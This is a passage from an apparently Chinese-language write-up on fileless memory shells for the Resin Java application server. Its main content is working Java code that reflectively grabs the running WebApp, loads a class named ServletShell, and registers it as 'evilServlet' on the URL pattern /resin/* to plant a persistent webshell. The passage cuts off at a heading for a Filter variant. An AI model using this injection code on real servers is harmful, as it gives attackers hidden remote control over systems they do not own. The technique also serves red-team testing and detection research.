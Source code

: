 - 构造servletMapping，添加相关配置

  ```
  servletMapping.setServletClass();
  servletMapping.setServletName();
  servletMapping.addURLPattern();
  ```

- 调用成员方法addServletMapping添加该servletMapping即可



代码实现

```java
String servletName = "evilServlet";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class<?> servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object servletRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp) servletRequest.getClass().getMethod("getWebApp").invoke(servletRequest);
Class evilClazz = classLoader.loadClass("com.example.general.ServletShell");
ServletMapping servletMapping = new ServletMapping();
servletMapping.setServletClass(evilClazz.getName());
servletMapping.setServletName(servletName);
servletMapping.addURLPattern(urlPatternX);
webApp.addServletMapping(servletMapping);
response.getWriter().write("inject success");
```



测试效果

![image-20220106164158028](resin-fileless-shell.assets/image-20220106164158028.png)



#### Resin 3.x & 4.x

##### Filter
